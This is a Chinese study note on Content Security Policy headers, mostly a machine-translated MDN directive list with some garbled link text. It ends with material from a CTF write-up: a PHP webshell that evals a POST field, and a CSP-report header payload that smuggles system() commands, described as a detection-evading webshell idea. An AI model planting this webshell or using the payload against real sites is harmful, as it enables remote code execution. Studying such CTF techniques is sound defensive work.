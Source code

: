 # SSRF之CSP策略

​	看了华为杯的WP以后，感觉这个点十分的新颖并且很有意思于是进行了相关内容的进一步学习和整理。

​	简单讲，CSP策略是一个额外的安全层，与其相关的http header主要有两个，一个是`Content-Security-Policy`,一个是`Content-Security-Policy-Report-Only`前者会阻止对违反CSP安全策略的资源的加载，而后者会将违规报告通过HTTP request post请求发送json文档到指定URI。

## 	 Syntax

```
Content-Security-Policy: <policy-directive>; <policy-directive>
Content-Security-Policy-Report-Only: <policy-directive>; <policy-directive>
```

## 	Directive(限制指令)

​	[Fetch 指令](https://developer.mozilla.org/en-US/docs/Glossary/Fetch_directive)控制可以从中加载某些资源类型的位置。

- [`child-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/child-src)

  定义使用 <[`frame>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/frame)和[``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) 等元素加载的[Web 辅助角色](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API)和嵌套浏览上下文的有效源。**警告：**而不是**`子源`**， 如果要调节嵌套浏览上下文和工作线程， 您应该分别使用[`Frame-SRC`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-src)和[`worker-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/worker-src)指令。

- [`connect-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src)

  限制可以使用脚本接口加载的 URL

- [`default-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

  用作其他抓取的回[退 指令](https://developer.mozilla.org/en-US/docs/Glossary/Fetch_directive)。

- [`font-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/font-src)

  指定使用[`@font面`](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face)加载的字体的有效源。

- [`frame-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-src)

  指定使用[``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/frame)和[``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)等元素加载的嵌套浏览上下文的有效源。

- [`img-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/img-src)

  指定图像和收藏夹图标的有效来源。

- [`manifest-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/manifest-src)

  指定应用程序清单文件的有效源。

- [`media-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/media-src)

  指定使用 <audio>、<[`video`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/video)>and[``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/track)元素加载媒体的有效源。[``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/audio)

- [`object-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/object-src)

  为[`<对象>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object)，[``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/embed)指定有效的源， 和[`<小程序>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/applet)元素。**注意：**控制元素可能是 巧合地被认为是遗留的 HTML 元素，并且没有收到新的标准化 功能（例如安全属性或）。因此，**建议** 限制此获取指令（例如，显式设置如果 可能）。`object-src``sandbox``allow``<iframe>``object-src 'none'`

- [`prefetch-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/prefetch-src) 实验的

  指定要预取或预呈现的有效源。

- [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)

  指定 JavaScript 和 WebAssembly 资源的有效源。

- [`script-src-elem`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-elem)

  指定 JavaScript[``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script)elements 的有效源。

- [`script-src-attr`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-attr)

  指定 JavaScript 内联事件处理程序的有效源。

- [`style-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src)

  指定样式表的有效源。

- [`style-src-elem`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src-elem)

  指定样式表[`<样式>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/style)元素和[`<链接>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/link)元素的有效源。`rel="stylesheet"`

- [`style-src-attr`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src-attr)

  指定应用于单个 DOM 元素的内联样式的有效源。

- [`worker-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/worker-src)

  指定工作线程、[`共享工作线程`](https://developer.mozilla.org/en-US/docs/Web/API/SharedWorker)或服务[`工作进程`](https://developer.mozilla.org/en-US/docs/Web/API/ServiceWorker)脚本的有效源。

  ## Report directives（报告指令）

  * `report-uri`

  指示用户代理报告违反内容安全策略的尝试。 这些违规报告包含通过 HTTPrequest 发送到指定 URI 的[JSON](https://developer.mozilla.org/en-US/docs/Glossary/JSON)文档。`POST`

  ## Values

  下面列出了允许值的概述。 有关详细参考[，请参阅 CSP 源值](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/Sources#sources)和各个指令的文档。

  ### Keyword values

  - `none`

    不允许加载任何资源。

  - `self`

    仅允许来自当前源的资源。

  - `strict-dynamic`

    由于随附的随机数或哈希而授予页面中脚本的信任将扩展到它加载的脚本。

  - `report-sample`

    要求在违规报告中包含违规代码的示例。

  ### Unsafe keyword values

  - `unsafe-inline`

    允许使用内联资源。

  - `unsafe-eval`

    允许使用动态代码评估，例如[`eval`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)，[`setImmediate`](https://developer.mozilla.org/en-US/docs/Web/API/Window/setImmediate) 非标和`window.execScript` 非标.

  - `unsafe-hashes`

    允许启用特定的内联事件处理程序。

  - `unsafe-allow-redirects` 实验的

    待定

  ### Hosts values

  - Host
    - 仅允许从特定主机加载资源，具有可选的方案、端口和路径。例如，`example.com``*.example.com``https://*.example.com:12/path/to/file.js`
    - CSP 中以它们作为前缀的任何路径结尾的路径部分。例如，将匹配网址。`/``example.com/api/``example.com/api/users/new`
    - CSP 中的其他路径部分完全匹配，例如将匹配，但不是`example.com/file.js``http://example.com/file.js``https://example.com/file.js``https://example.com/file.js/file2.js`
  - Scheme
    - 仅允许通过特定方案加载资源，应始终以“”结尾。例如，，等等。`:``https:``http:``data:`

  ### Other values

  - nonce-*

    允许脚本的加密随机数（仅使用一次）。服务器每次传输策略时都必须生成唯一的随机数值。提供无法猜测的随机数至关重要，因为绕过资源策略在其他方面是微不足道的。这与[脚本标记随机数属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script#attr-nonce)结合使用。例如`nonce-DhcnhD3khTMePgXwdayK9BsMqXjhguVV`

  - sha*-*

    SHA256、SHA384 或 SHA512。后跟短划线，然后是 sha* 值。例如`sha256-jzgBGA4UWFFmpOBq0JpdsySukE1FrEN5bUpoK8Z29fY=`

  ```
  华为杯wp里面的
  报告json结构
  {
      "csp-report": {
          "document-uri": "http://124.221.138.51/template/img.php?Content-Security-Policy-Report-Only=img-src%20none;%20report-uri%20/shell.php;%26bbzl%27s%20shell=system(%27touch%20/tmp/1%27);%26",
          "referrer": "",
          "violated-directive": "img-src",
          "effective-directive": "img-src",
          "original-policy": "img-src none; report-uri /shell.php;&bbzl's shell=system('touch /tmp/1');&",
          "disposition": "report",
          "blocked-uri": "http://124.221.138.51/img/1.jpg",
          "line-number": 2,
          "source-file": "http://124.221.138.51/template/img.php?Content-Security-Policy-Report-Only=img-src%20none;%20report-uri%20/shell.php;%26bbzl%27s%20shell=system(%27touch%20/tmp/1%27);%26",
          "status-code": 200,
          "script-sample": ""
      }
  }
  shell.php:
  <?php
      $postdata = file_get_contents("php://input");
      $kv_list = explode('&',$postdata);
      var_dump($kv_list);
      if(count($kv_list)>0){
          foreach ($kv_list as $value){
              $kv = explode('=',$value);
              var_dump($kv);
              if(count($kv)==2){
                  if($kv[0]==="bbzl's shell"){
                      echo eval($kv[1]);
                  }
              }
          }
      }
  
  payload:
  Content-Security-Policy-Report-Only:img-src none; report-uri /flag.php;&bbzl's shell=system(mkdir success);&
  ```

  ![image-20221119184429487](D:\MDlearn\学习记录\md\SSRF之CSP策略.assets\image-20221119184429487.png)

​	通过查阅mdn文档，我们可以知道如何设置指定的policy-directive，由此，我们可以联想到，如果我们设置的policy和现有网页的预加载资源相冲突，那么就可以通过`Content-Security-Policy-Report-Only`的功能，来实现一个ssrf的效果，发送一个指定的post包。结合上传文件，可以起到一个webshell的作用，学到了一个新的免杀webshell的构造思路点。

​	推荐相关文章[Content Security Policy (CSP) 筆記 - HackMD](https://hackmd.io/@Eotones/BkOX6u5kX)

  文档链接 ：[Content-Security-Policy - HTTP | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#examples)

[Content-Security-Policy-Report-Only - HTTP | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only)

[内容安全策略 ( CSP ) - HTTP | MDN (mozilla.org)](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)





